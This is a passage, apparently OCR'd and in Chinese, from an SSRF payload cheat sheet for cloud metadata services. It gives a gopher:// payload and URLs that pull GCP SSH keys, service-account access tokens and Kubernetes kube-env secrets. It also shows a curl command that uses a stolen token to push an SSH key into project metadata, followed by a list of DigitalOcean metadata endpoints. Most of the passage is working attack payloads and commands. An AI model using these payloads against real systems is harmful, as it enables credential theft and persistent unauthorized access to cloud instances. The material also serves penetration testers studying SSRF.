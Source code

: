 ```powershell
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

要提取的有趣文件：

* SSH公钥：`http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
* 获取访问令牌：`http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
* Kubernetes密钥：`http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`

### 添加SSH密钥

提取令牌

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

检查令牌的范围

```powershell
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```

现在推送SSH密钥。

```powershell
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```

## Digital Ocean的SSRF URL

文档位于 `https://developers.digitalocean.com/documentation/metadata/`

```powershell
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

一个请求获取所有信息:
curl http://169.254.169.254/metadata/v1.json | jq
```
